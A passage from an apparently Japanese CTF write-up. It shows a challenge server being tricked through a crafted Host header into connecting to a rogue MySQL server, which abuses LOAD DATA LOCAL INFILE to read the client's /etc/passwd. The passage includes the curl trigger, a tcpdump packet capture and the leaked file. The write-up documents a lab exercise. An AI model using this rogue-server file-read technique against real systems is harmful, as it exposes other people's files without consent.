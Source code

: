 3306 番ポートへの接続を試みています。3306 番ポートは MySQL がデフォルトで使用するポート番号です。サーバを立ち上げて `52.208.15.104` のみが接続できるようにし、再度 `Host: (IP アドレス).nip.io` を試して MySQL のエラーログを見てみましょう。

```
2019-06-15T22:17:09.107095Z 13 [Note] Access denied for user 'root'@'ec2-52-208-15-104.eu-west-1.compute.amazonaws.com' (using password: YES)
```

root でのログインを試みています。`/etc/my.cnf` に `skip-grant-tables` を加えてパスワード入力なしで root にログインできるようにし、`tcpdump -s0 -i eth0 -X dst port 3306 or src port 3306` でパケットをキャプチャすると、以下のように発行されているクエリの情報が得られました。

```
22:32:16.659918 IP ec2-52-208-15-104.eu-west-1.compute.amazonaws.com.49402 > ubuntu-s-1vcpu-1gb-sgp1-01.mysql: Flags [P.], seq 224:297, ack 179, win 229, options [nop,nop,TS val 3851398856 ecr 1114519952], length 73
        0x0000:  4500 007d ef00 4000 2906 0249 34d0 0f68  E..}..@.)..I4..h
        0x0010:  xxxx xxxx c0fa 0cea ec88 7609 0276 261a  ..........v..v&.
        0x0020:  8018 00e5 5c9d 0000 0101 080a e58f aec8  ....\...........
        0x0030:  426e 3990 4500 0000 0353 454c 4543 5420  Bn9.E....SELECT.
        0x0040:  2263 6361 6267 6173 776f 6b22 2041 5320  "ccabgaswok".AS.
        0x0050:  6e6f 6e63 652c 206e 616d 652c 2070 6173  nonce,.name,.pas
        0x0060:  7377 6f72 6420 6672 6f6d 2066 6c61 672e  sword.from.flag.
        0x0070:  7573 6572 7320 6c69 6d69 7420 31         users.limit.1
```

`SELECT "ccabgaswok" AS nonce, name, password from flag.users limit 1` と、`flag.users` というテーブルからパスワード等を取得しています。また、`nonce` として与えられている文字列は接続ごとに異なっています。とりあえず `name` と `password` というカラムを持つ `flag.users` というテーブルを作ってみましょう。

```
mysql> create database flag;
Query OK, 1 row affected (0.00 sec)

mysql> use flag;
Database changed
mysql> create table users (name text, password text);
Query OK, 0 rows affected (0.01 sec)
```

ここでしばらく詰まりました。`name` に `admin`、`password` に `password` を入れてみたり、Query Rewrite Plugin 等を使って、`password` が与えられた `nonce` 等をもとにした SHA-1 ハッシュ等を返すようにしたりしてみましたが、どれもうまくいかず問題サーバはパスワードが間違っているというメッセージを返しました。

しばらくググっていると、[VolgaCTF 2018 Quals で出題された Corp monitoring という問題の writeup](https://github.com/balsn/ctf_writeup/tree/master/20180324-volgactf#corp-monitoring-unsolved-written-by-bookgin-special-thanks-to-admin-aleksey) を見つけました。この問題と同様に MySQL のクライアントが接続してくるようなシチュエーションで、[`LOCAL DATA INFILE` を使ってクライアント側のファイルを読み出しています](http://russiansecurity.expert/2016/04/20/mysql-connect-file-read/)。

writeup で紹介されているコードをそのまま実行し、`curl http://52.208.15.104:3002/login -H "Host: (IP アドレス).nip.io" -d "username=admin&password=password"` を実行してみると、以下のように `/etc/passwd` を読み出すことができました。

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```